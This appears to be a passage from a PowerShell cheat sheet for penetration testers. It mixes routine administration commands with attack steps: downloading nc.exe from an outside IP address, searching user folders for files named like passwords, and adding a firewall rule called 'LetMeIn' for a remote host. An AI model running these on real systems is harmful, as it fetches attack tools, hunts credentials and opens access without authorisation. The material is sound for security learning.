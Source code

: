 Fetch a file via HTTP (wget in PowerShell):

```
PS C:\> (New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/nc.exe","nc.exe")
```

Find all files with a particular name:

```
PS C:\> Get-ChildItem "C:\Users\" -recurse -include *passwords*.txt
```

Get a listing of all installed Microsoft Hotfixes:

```
PS C:\> Get-HotFix
```

Navigate the Windows registry:

```
PS C:\> cd HKLM:\
PS HKLM:\> ls
```

List programs set to start automatically in the registry:

```
PS C:\> Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\run
```

Convert string from ascii to Base64:

```
PS C:\>[System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("PSFTW!"))
```

List and modify the Windows firewall rules:

```
PS C:\> Get-NetFirewallRule –all
PS C:\> New-NetFirewallRule -Action Allow -DisplayName LetMeIn -RemoteAddress 10.10.10.25
```

## Syntax

Cmdlets are small scripts that follow a dashseparated verb-noun convention such as "Get-Process".

Similar Verbs with Different Actions:

* New- Creates a new resource
* Set- Modifies an existing resource
* Get- Retrieves an existing resource
* Read- Gets information from a source, such as a file
* Find- Used to look for an object
* Search- Used to create a reference to a resource
* Start- (asynchronous) begin an operation, such as starting a process
* Invoke- (synchronous) perform an operation such as running a command

Parameters:
